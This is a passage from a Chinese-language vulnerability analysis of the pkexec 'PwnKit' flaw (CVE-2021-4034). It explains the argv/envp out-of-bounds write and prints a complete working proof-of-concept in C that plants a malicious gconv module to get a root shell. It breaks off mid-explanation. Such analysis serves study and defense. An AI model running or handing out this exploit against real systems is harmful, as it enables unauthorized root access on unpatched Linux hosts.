 但假如我们强行不设置任何参数（`execve()` 的 `argv[]` 变量设为 `{NULL}`），那么这里 `argc` 为 0，循环体不会被执行，`n` 的值维持在 1。随后的代码片段如下：

```c
path = g_strdup (argv[n]);
// ...
if (path[0] != '/')
{
	// ...
	s = g_find_program_in_path (path);
	// ...
	argv[n] = path = s;
}
```

可以看到第 8 行中 pkexec 会执行写入 `argv[n]` 的操作，此时就会写入越界下标对应内存中。但因为 `argv` 和 `envp` 数组在内存中相邻，所以此时所谓 `argv[1]` 对应的位置，恰好就位于程序运行时环境变量数组所在的内存位置 `envp[0]`，因此我们可以借助该漏洞覆盖程序运行时的环境变量，以达到提权的目的。

[PoC](https://github.com/arthepsy/CVE-2021-4034) 也非常简单：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell =
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

PoC 的核心思路是设置不安全环境变量 `GCONV_PATH`，利用 glibc 的 `iconv_open()` 函数加载我们自定义的 .so 文件，实现恶意代码执行。但我们知道，不安全环境变量，例如 `LD_PRELOAD` 和 `GCONV_PATH` 等，在 SUID 程序中会被 ld.so 移除。因此我们需要借助这个漏洞来重新引入 `GCONV_PATH`。要解决的问题有两个：

#### 1. 如何调用 `iconv_open()`？

